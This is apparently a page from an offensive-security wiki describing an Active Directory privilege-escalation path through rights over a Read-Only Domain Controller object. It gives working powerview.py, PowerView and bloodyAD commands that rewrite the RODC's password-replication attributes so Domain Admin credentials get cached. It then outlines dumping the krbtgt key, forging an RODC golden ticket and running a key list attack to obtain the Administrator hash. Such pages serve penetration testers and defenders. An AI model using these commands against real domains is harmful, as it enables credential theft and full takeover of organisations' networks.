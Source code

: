 # Rights on RODC object

With administrative control over the [RODC](../domain-settings/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

{% hint style="info" %}
For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:

* `GenericWrite`
* `GenericAll` / `FullControl`
* `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
* `Owns` (c.f. `WriteDacl`)
* `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
* `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.

<pre class="language-bash"><code class="lang-bash"><strong>powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
</strong>
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
<strong>PV > Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
</strong><strong>PV > Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'
</strong>
#If needed, remove the admin from the msDS-NeverRevealGroup attribute
<strong>PV > Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
</strong></code></pre>

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% tab title="Windows/UNIX-like" %}
It can also be achieved with a python tool as [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
 # Get original msDS-RevealOnDemandGroup values 
bloodyAD --host 10.10.10.10 -d domain.local -u username -p pass123 get object 'RODC$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local
# Add the previous value plus the admin account
bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 set object 'RODC$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06" %}
